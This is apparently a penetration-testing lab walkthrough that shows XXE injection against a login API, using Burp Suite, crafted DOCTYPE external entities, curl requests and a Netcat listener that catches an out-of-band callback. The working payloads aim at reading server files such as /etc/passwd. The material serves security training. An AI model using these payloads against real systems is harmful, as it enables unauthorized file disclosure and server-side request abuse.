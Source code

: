 # XML External Entity (XXE) Injection

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down. Our [Web Attacks](https://academy.hackthebox.com/module/details/134) module covers XXE Injection vulnerabilities in detail. It should be noted that XXE vulnerabilities affect web applications and APIs alike.

Let us assess together an API that is vulnerable to XXE Injection.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing such an application residing in `http://<TARGET IP>:3001`.

By the time we browse `http://<TARGET IP>:3001`, we come across an authentication page.

Run Burp Suite as follows.

```shell-session
$ burpsuite
```

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now let us try authenticating. We should see the below inside Burp Suite's proxy.

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

```http
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?><root><email>test@test.com</email><password>P@ssw0rd123</password></root>
```

* We notice that an API is handling the user authentication functionality of the application.
* User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE to this request.

What is a DOCTYPE?

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).

Our current payload is:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```

We defined a DTD called _pwn_, and inside of that, we have an `ENTITY`. We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the `ENTITY` name and its value.

We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.

```shell-session
$ nc -nlvp 4444
listening on [any] 4444 ...
```

Now let us make an API call containing the payload we crafted above.

```shell-session
$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>
```

We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.

```shell-session
$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```

After the call to the API, you will notice a connection being made to the listener.

```shell-session
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

The API is vulnerable to XXE Injection.
